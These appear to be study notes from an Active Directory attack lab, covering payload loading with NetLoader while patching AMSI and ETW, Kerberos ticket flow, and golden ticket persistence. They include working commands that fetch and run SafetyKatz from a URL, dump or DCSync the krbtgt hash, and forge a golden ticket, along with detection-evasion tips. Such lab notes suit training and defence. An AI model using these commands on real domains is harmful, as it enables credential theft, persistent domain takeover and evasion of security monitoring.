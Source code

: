 We can use obfuscated version of NetLoader: https://github.com/Flangvik/NetLoader (it gets detected) to deliver our binary payloads
AMSI - AntiMalware Scan Interface
ETW - Event Tracking for Windows (eyes and ears of MDE, (MS EDR), it tells about behaviour, access and activity of an executable/binary)
- #### ***It can be used to load binary from filepath or URL and patch AMSI & ETW while executing***
`C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe`
- #### ***We also have AssemblyLoad.exe that can be used to load the NetLoader in-memory from a URL which then loads a binary from a filepath or URL***
`C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe`
# **Learning Objective 7**
[[Learning Objective 7]]
# **AD Domain Dominance**
DA is just the beginning of enterprise compromise, there are other things to do such as persist, escalate do enterprise admin, execute cross-trust attacks. 
# **Kerberos**
[[Basics]]
Basis of authentication in a Windows AD environment.
Clients (programs on behalf of a user) need to obtain tickets from KDC which is a service running on the DC. These tickets represent the client's credentials.
1. User's AES key signs and encrypts the timestamp that is sent to the DC (AS-REQ/PRE-AUTH)
2. KDC decrypts the timestamp and validates it (because DC has access to all the secrets in the domain), then DC sends a TGT encrypted and signed using AES keys of krbtgt (specific account on the DC created for this porpuse) to the client/user. (AS-REP)
3. The user sends the TGT encrypted with the krbtgt's AES keys requesting a TGS, for the DC to provice access to a certain service determined by the SPN. The DC only provices access if it can decrypt the TGT (TGS-REQ)
4. DC sends a TGS encrypted with the service's AES key (TGS-REP)
5. User sends the TGS to the service it wants to access to see if its authorized to connect and access that service
# **Persistence - Golden Ticket**
TGT is signed and encrypted with the hash of krbtgt account which makes a valid TGT (end of step 2 and the step3). If we can extract krbtgt account secrets we can forge our own TGT's.
The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine. (Its recommended to change the password of the krbtgt account twice as password history is maintained for the account)
***We are targeting the DC and we have DA privileges***
- #### ***Execute Mimikatz (or a variant) on DC as DA to get krbtgt hash***
`Invoke-Mimikatz -Command '"lsadump /patch"' -ComputerName dcorp-dc` (***noisy***)
- #### ***Use the DCSync feature for getting AES keys for the krbtgt account. Use with DA privs (or a user that has replication rights on the domain object)***
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"`
The DCSync option doesnt need code execution on the target DC
***its not recommended to use golden ticket attack or even domain admin privs if we are trying to not get detected***
(creating a golden ticket on any machine that has network connectivity with DC)
`C:\AD\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<DomainSID> /aes256:<krbtgtAESkey> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"`
Always make sure that the user is an active domain admin, id is the same security identifier as the user we specified. Optional:
`/startoffset:0` = ticket is available immediatelly, negative for a ticket available from past and larger number for future; `/endin:600` = ticket lifetime (default is 10 years) in minutes, the default AD setting is 10 hours = 600 minutes; `/renewmax:10080` = ticket lifetime with renewal (default is 10 years) in minutes, the default AD setting is 7 days = 10080